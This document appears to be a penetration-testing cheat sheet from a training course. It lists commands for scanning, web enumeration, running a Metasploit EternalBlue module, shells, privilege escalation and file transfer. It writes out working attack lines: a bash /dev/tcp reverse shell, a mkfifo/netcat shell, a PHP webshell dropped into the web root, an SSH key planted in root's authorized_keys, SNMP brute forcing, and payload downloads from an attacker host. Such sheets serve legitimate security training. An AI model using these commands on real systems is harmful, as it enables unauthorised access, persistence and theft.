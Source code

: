 General

	sudo openvpn <vpnFile>            # connect to VPN
	ifconfig/ip a                     # show ip address
	netstat -rn                       # show networks accessible via the VPN
	ssh user@10.10.10.10              # SSH to a remote server
	ftp 10.129.42.253                 # FTP to a remote server

tmux

	tmux                     # start tmux
	ctrl+b                   # tmux: default prefix
	prefix c                 # tmux: new window
	prefix 1                 # tmux: switch to window (1)
	prefix shift+%           # tmux: split pane vertically
	prefix shift+"           # tmux: split pane horizontally
	prefix ->                # tmux: switch to the right pane

VIM

	vim <file>               # vim: open file with vim
	esc+i                    # vim: enter insert mode
	esc                      # vim: back to noraml mode
	x                        # vim: cut character
	dw                       # vim: cut word
	dd                       # vim cut full line
	yw                       # vim: copy word
	yy                       # vim: copy full line
	p                        # vim: paste
	:1                       # vim: go to line number 1
	:w                       # vim: write the file 'i.e. save'
	:q                       # vim: quit
	:q!                      # vim: quit without saving
	:wq                      # vim: write and quit

Pentesting

	nmap 10.129.42.253                     # run nmap on an IP
	nmap -sV -sC -p- 10.129.42.253         # run an nmap script scan on an IP
	nmap -sT --top-ports 100 -v -oG -      # top 100 TCP ports
	locate scripts/citrix                  # list various available nmap scripts
	nmap --script smb-os-discovery.nse -p445 10.10.10.40  # run an nmap script
	netcat 10.10.10.10 22                  # grab banner of an open port
	smbclient -N -L \\\\10.129.42.253      # list smb shares
	snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0  # scan SNMP on an IP 
	onesixtyone -c dict.txt 10.129.42.254  # brute force SNMP secret string

Web Enumeration

	gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt        # run a directory scan on a website
	gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt  # run a sub-domain scan on a website
	curl -IL https://www.inlanefreight.com     # grab website banner
	whatweb 10.10.10.121                       # list details about the webserver/certs
	curl 10.10.10.121/robots.txt               # list potential directories in robots.txt
	ctrl+U                                     # view page source (in Firefox)

Public Exploits

	searchsploit openssh 7.2            # search for public eploits for a web application
	msfconsole                          # MSF: start the Metasploit Framework
	search exploit eternalblue          # MSF: search for public exploits in MSF
	use exploit/windows/smb/ms17_010_psexec  # MSF: start using an MSF module
	show options                        # MSF: show required options for an MSF module
	set RHOSTS 10.10.10.40              # MSF: set a vlue for an MSF module option
	check                               # MSF: test if the target server is vulnerable
	exploit                    # MSF: run the exploit on the target server is vulnerable

Using Shells

	nc -lvnp 1234  # start a nc listener on a local port
	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'      # send a reverse shell from the remote server
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f      # start a bind shell on the remote server
	nc 10.10.10.1 1234      # connect to a bind shell started on the remote server
	python -c 'import pty; pty.spawn("/bin/bash")'     # upgrade shell TTY(1)
	crtl+z -> stty raw -echo -> fg -> enter twice     # upgrade shell TTY(2)
	echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php     # create a webshell php file
	curl http://SERVER_IP:PORT/shell.php?cmd=id      # execute a command on an uploaded webshell

Privilege Escalation

	./linpeas.sh                      # run linpeas script to enumerate remote server
	sudo -l     # list available sudo privileges
	sudo -u user /bin/echo Hello World!     # run a command with sudo
	sudo su -     # switch to root user (if we have access to sudo su)
	sudo su user -     # switch to a user (if we have access to sudo su)
	ssh-keygen -f key     # create a new SSH key
	echo "ssh-rsa AAAAB...SNIP...M=user@parrot" >> /root/.ssh/authorized_keys     # add the generated public key to the user
	ssh root@10.10.10.10 -i key     # SSH to the server with the generated private key

Transferring Files

	python3 -m http.server 8000     # start a local webserver
	wget http://10.10.14.1:8000/linpeas.sh     # download a file on the remote server from our local machine
	curl http://10.10.14.1:8000/linenum.sh -o linenum.sh     # download a file on the remote server from our local machine
	scp linenum.sh user@remotehost:/tmp/linenum.sh     # transfer a file to the remote server with scp (requires SSH access)
	base64 shell -w 0     # convert a file to base64
	echo f0VMR...SNIO...InmDwU | base64 -d > shell     # convert a file from base64 back to its orig
	md5sum shell      # check the file's md5sum to ensure it converted correctly